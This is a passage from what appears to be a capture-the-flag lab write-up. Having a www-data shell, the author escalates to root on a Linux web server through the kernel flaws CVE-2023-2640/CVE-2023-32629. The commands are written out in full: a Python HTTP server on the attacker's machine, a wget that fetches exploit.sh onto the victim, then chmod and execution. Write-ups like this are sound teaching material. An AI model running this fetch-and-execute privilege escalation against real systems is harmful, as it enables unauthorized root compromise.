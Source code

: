 However we gained access to another linux machine in the same network but not the host one:

```bash
www-data@webserver:/var/www/html/uploads$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.5.2  netmask 255.255.255.0  broadcast 192.168.5.255
        inet6 fe80::215:5dff:fe00:8a02  prefixlen 64  scopeid 0x20<link>
        ether 00:15:5d:00:8a:02  txqueuelen 1000  (Ethernet)
        RX packets 637  bytes 51517 (51.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 411  bytes 495806 (495.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Access as root to linux server

The kernel version is vulnerable to [CVE-2023-2640 and CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), so we can exploit it and gain access as root:

#### Attacker
```bash
❯ ls -l exploit.sh
-rw-r--r-- 1 gabri gabri 558 abr  8 18:23 exploit.sh
                                                                                                                                                                                        
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

#### Victim
```bash
www-data@webserver:/var/www/html/uploads$ cd /tmp/
www-data@webserver:/tmp$ wget http://10.10.14.124/exploit.sh
--2024-04-09 22:51:15--  http://10.10.14.124/exploit.sh
Connecting to 10.10.14.124:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: 'exploit.sh'

exploit.sh          100%[===================>]     558  --.-KB/s    in 0s      

2024-04-09 22:51:15 (27.2 MB/s) - 'exploit.sh' saved [558/558]

www-data@webserver:/tmp$ chmod +x exploit.sh 
www-data@webserver:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/tmp## whoami
root
```

## Access to windows machine as drbrown
